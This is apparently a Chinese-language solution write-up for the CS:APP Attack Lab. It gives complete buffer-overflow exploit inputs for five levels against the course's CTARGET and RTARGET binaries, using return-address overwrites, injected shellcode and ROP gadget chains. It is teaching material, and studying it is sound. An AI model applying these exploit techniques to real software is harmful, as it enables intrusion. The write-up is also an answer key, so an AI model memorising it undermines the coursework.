



知识点
在这个实验中，学习利用缓存溢出（buffer
overflow） 来改变程序的行为，即完成攻击者的目的效果。
需要掌握 x86-64 的栈和参数传递机制，其结构如下图所示。

图 1. 通用栈帧结构
其中函数 P 调用了函数 Q，返回地址 为函数 P
调用位置的下一条指令。实验攻击均修改该返回地址来完成攻击目的。
题目
实验中的程序 CTARGET 和 RTARGET 都调用了函数 test：
1 2 3 4 5 void test () { int val; val = getbuf(); printf ("No exploit. Getbuf returned 0x%x\n" , val); }
函数 test 又调用了函数 getbuf：
1 2 3 4 5 unsigned getbuf () { char buf[BUFFER_SIZE]; Gets(buf); return 1 ; }
函数 Gets 从标准输入读取输入。
函数 Gets 没有进行边界检查，因此是不安全。
数组 buf
是局部变量，存储于栈上，因而通过输入可以修改栈上数据达到攻击目的。
BUFFER_SIZE 是个常量，使用 gdb ctarget 和
disas getbuf 可查看其大小（在本实验中，BUFFER_SIZE =
0x28）。
Level 1
要求
针对程序 CTARGET， 修改函数 test 调用 getbuf 的返回地址，使其返回
touch1 函数而非 test。
做法
使用 disas touch1 查看函数 touch1 的地址为
0x4017c0 。
使用 disas getbuf 查看汇编代码：
1 2 3 4 5 6 0x4017a8 <+0>: sub $0x28,%rsp 0x4017ac <+4>: mov %rsp,%rdi 0x4017af <+7>: callq 0x401a40 <Gets> 0x4017b4 <+12>: mov $0x1,%eax 0x4017b9 <+17>: add $0x28,%rsp 0x4017bd <+21>: retq
当读入字符串超过 40 时，依据栈帧结构，第 41~48
个字节即为返回地址，因此将其设置为 touch1 的地址即可。
实验工具包提供了 hex2raw
将字节码（十六进制）转换成字符串，输入字节为：
1 2 3 4 5 6 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c0 17 40 00 00 00 00 00
使用 hex2raw 转换字节码序列：
1 2 ./hex2raw < bytes > args.txt ./ctarget -q -i args.txt
Level 2
要求
针对程序 CTARGET， 修改函数 test 调用 getbuf 的返回地址，使其返回
touch2 函数而非 test。
1 2 3 4 5 6 7 8 9 10 11 void touch2 (unsigned val) { vlevel = 2 ; if (val == cookie) { printf ("Touch2!: You called touch2(0x%.8x)\n" , val); validate(2 ); } else { printf ("Misfire: You called touch2(0x%.8x)\n" , val); fail(2 ); } exit (0 ); }
做法
使用 disas touch2 查看函数 touch2 的地址为
0x4017ec 。
函数 touch2 需要传递参数 val，该参数的值等于实验工具包中 cookie.txt
保存值（在本实验中 cookie=0x59b997fa ）。
函数的参数传递先使用 6 个寄存器，更多的参数保存在栈中。前 6
个寄存器如下图所示：

图 2. 传递函数参数的寄存器
第一个参数寄存器为 %rdi，因此需要注入执行代码将 cookie 值保存到寄存器
%rdi 中。
首先执行代码本质 上是字节序列，其次返回地址指向下一条指令的地址，最后
CTARGET
的堆栈位置每次运行都保持一致。利用这三条性质可将返回地址指向栈的某个位置，并在该位置填入合法的指令字节序列，注入攻击代码。
A. 查看数组 buf 在栈上的保存位置。
使用 b getbuf 在函数 getbuf
的第一条指令设置断点，然后使用 n 2 执行一下两条指令：
1 2 0x4017a8 <+0>: sub $0x28,%rsp 0x4017ac <+4>: mov %rsp,%rdi
此时 %rdi = %rsp，为函数 Gets 的参数
buf，因此输入字符串的起始地址等于 %rsp。
使用 print /x $rsp 查看 %rsp 的值为 0x5561dc78，即
CTARGET 每次运行时 buf 的地址都是 0x5561dc78。
B. 生成注入代码的字节序列。
与 Level 1 类似，用 0x5561dc78 覆盖 getbuf 的返回地址，然后从
0x5561dc78 开始填充注入代码：保存 cookie 值到 %rdi，然后跳转执行
touch2，其汇编代码如下：
1 2 3 mov $0x59b997fa, %rdi push $0x4017ec # 填充 touch2 作为新返回地址 retq # 跳转到 touch2
将上述代码保存为 exec.s，使用以下命令查看指令字节序列：
1 2 gcc -c exec.s objdump -d exec.o
指令字节序列为：
1 2 3 4 5 6 7 8 exec.o: file format elf64-x86-64 Disassembly of section .text: 0000000000000000 <.text>: 0: 48 c7 c7 fa 97 b9 59 mov $0x59b997fa,%rdi 7: 68 ec 17 40 00 pushq $0x4017ec c: c3 retq
C. CTARGET 的输入字节序列
1 2 3 4 5 6 48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 dc 61 55 00 00 00 00
Level 3
要求
针对程序 CTARGET， 修改函数 test 调用 getbuf 的返回地址，使其返回
touch3 函数而非 test。
1 2 3 4 5 6 7 8 9 10 11 void touch3 (char *sval) { vlevel = 3 ; if (hexmatch(cookie, sval)) { printf ("Touch3!: You called touch3(\"%s\")\n" , sval); validate(3 ); } else { printf ("Misfire: You called touch3(\"%s\")\n" , sval); fail(3 ); } exit (0 ); }
其中，touch3 会调用函数 hexmatch 以比较输入字符串是否和 cookie
的字符串相同，新的函数会使用并覆盖栈上的数据。
做法
在该实验中需要将 cookie 的字符串保存到栈上，并将其起始地址保存到 %rdi
上。
解法和 Level 2 类似，但要注意一点，touch3 中的 hexmatch
会使用栈而破坏输入的字节序列，导致 cookie 的字符串序列无效。
为了避免上述情况发生，与新函数执行相同，先开辟一段新的栈区以保护输入序列：
1 2 3 4 lea -24(%rsp), %rdi # cookie 字符串地址 sub $0x30, %rsp # 开辟栈区 push $0x4018fa # touch3 地址 ret
使用 gcc -c exec.s 和 objdump -d exec.o
查看指令字节序列：
1 2 3 4 5 6 7 8 9 exec.o: file format elf64-x86-64 Disassembly of section .text: 0000000000000000 <.text>: 0: 48 8d 7c 24 e8 lea -0x18(%rsp),%rdi 5: 48 83 ec 30 sub $0x30,%rsp 9: 68 fa 18 40 00 pushq $0x4018fa e: c3 retq
CTARGET 的输入字节序列：
1 2 3 4 5 6 48 8d 7c 24 e8 48 83 ec 30 68 fa 18 40 00 c3 00 00 00 00 00 00 00 00 00 35 39 62 39 39 37 66 61 00 00 00 00 00 00 00 00 78 dc 61 55 00 00 00 00
Level 4
要求
针对程序 RTARGET，修改函数 test 调用 getbuf 的返回地址，使其返回
touch2 函数而非 test。
在该实验中，禁止执行栈中的指令，并且栈的地址也会发生变化。因此，Level
1~3 的做法失效了。
做法
在该实验中通过找出已有指令的字节序列作为工具片段（gadget） ，其原理如下图所示。通过工具片段来解决无法执行栈中指令的问题。

图 3. 工具片段的执行序列
每个工具片段以 ret(编码 0xc3) 结尾，将工具片段地址保存在栈上，ret
依次解栈来执行下一条工具片段。
该实现限制了指令集 movq, popq, ret 和 nop。
该实验的思路比较清晰：通过 popq
从栈中取数据，然后使用将数据保存到相应的寄存器（如 %rdi）即可。
使用 disas /r getval_142
依次查看每个工具函数的指令序列。
其中，关键的工具函数有 addval_273 和 addval_219：
1 2 3 4 5 6 7 8 9 Dump of assembler code for function addval_273: 0x4019a0 <+0>: 8d 87 48 89 c7 c3 lea ,%eax 0x4019a6 <+6>: c3 retq End of assembler dump. Dump of assembler code for function addval_219: 0x4019a7 <+0>: 8d 87 51 73 58 90 lea -0x6fa78caf(%rdi),%eax 0x4019ad <+6>: c3 retq End of assembler dump.
在 addval_273 中可以提取指令序列：
1 2 0x4019a2: 48 89 c7 movq %rax, %rdi 0x4019a5: c3 retq
在 addval_219 中可以提取指令序列：
1 2 3 0x4019ab: 58 popq %rax 0x4019ac: 90 nop 0x4019ad: c3 retq
显然，通过工具片段 0x4019ab 提取 cookie 到 %rax，然后使用 0x4019a2 将
cookie 转移到 %rdi，完成参数构造。
RTARGET 的输入字节序列：
1 2 3 4 5 6 7 8 9 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ab 19 40 00 00 00 00 00 fa 97 b9 59 00 00 00 00 a2 19 40 00 00 00 00 00 ec 17 40 00 00 00 00 00
Level 5
要求
针对程序 RTARGET，修改函数 test 调用 getbuf 的返回地址，使其返回
touch3 函数而非 test。
在该实验中，禁止执行栈中的指令，并且栈的地址也会发生变化。因此，Level
1~3 的做法失效了。
做法
做法与 Level 4 类似，但是需要更多的工具片段，额外需要一条 lea
指令计算 cookie 字符串的地址。
关键工具函数及提取的工具片段如下，函数顺序表示了执行顺序：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 000027 <addval_219>: 0x4019a7 <+0>: 8d 87 51 73 58 90 lea -0x6fa78caf(%rdi),%eax 0x4019ad <+6>: c3 retq # 提取工具片段 0x4019ab: 58 pop %rax 0x4019ac: 90 0x4019ad: c3 0001b2 <addval_487>: 0x401a40 <+0>: 8d 87 89 c2 84 c0 lea -0x3f7b3d77(%rdi),%eax 0x401a46 <+6>: c3 retq # 提取工具片段 0x401a42: 89 c2 movl %eax, %edx 0x401a44: 84 c0 tesb %al, %al 0x401a46: c3 retq 000196 <getval_159>: 0x401a33 <+0>: b8 89 d1 38 c9 mov $0xc938d189,%eax 0x401a38 <+5>: c3 retq # 提取工具片段 0x401a34: 89 d1 movl %edx, %ecx 0x401a36: 38 c9 cmpb %cl, %cl 0x401a38: c3 retq 000143 <addval_436>: 0x401a11 <+0>: 8d 87 89 ce 90 90 lea -0x6f6f3177(%rdi),%eax 0x401a17 <+6>: c3 retq # 提取工具片段 0x401a13: 89 ce movl %ecx, %esi 0x401a15: 90 nop 0x401a16: 90 nop 0x401a17: c3 retq 0002b8 <setval_350>: 0x401aab <+0>: c7 07 48 89 e0 90 movl $0x90e08948,(%rdi) 0x401ab1 <+6>: c3 retq # 提取工具片段 0x401aad: 48 89 e0 mov %rsp, %rax 0x401ab0: 90 0x401ab1: c3 000016 <addval_273>: 0x4019a0 <+0>: 8d 87 48 89 c7 c3 lea -0x3c3876b8 (%rdi),%eax 0x4019a6 <+6>: c3 retq # 提取工具片段 0x4019a2: 48 89 c7 mov %rax, %rdi 0x4019a5: c3 0000a2 <add_xy>: 0x4019d6 <+0>: 48 8d 04 37 lea (%rdi,%rsi,1),%rax 0x4019da <+4>: c3 retq # 提取工具片段 0x4019d6: 48 8d 04 37 lea (%rdi, %rsi, 1), %rax 0x4019da: c3 000016 <addval_273>: 0x4019a0 <+0>: 8d 87 48 89 c7 c3 lea -0x3c3876b8 (%rdi),%eax 0x4019a6 <+6>: c3 retq # 提取工具片段 0x4019a2: 48 89 c7 mov %rax, %rdi 0x4019a5: c3 xxxxxx <touch3> 0x4018fa
RTARGET 的输入字节序列：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 00 11 22 33 44 55 66 77 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ab 19 40 00 00 00 00 00 20 00 00 00 00 00 00 00 42 1a 40 00 00 00 00 00 34 1a 40 00 00 00 00 00 13 1a 40 00 00 00 00 00 ad 1a 40 00 00 00 00 00 a2 19 40 00 00 00 00 00 d6 19 40 00 00 00 00 00 a2 19 40 00 00 00 00 00 fa 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00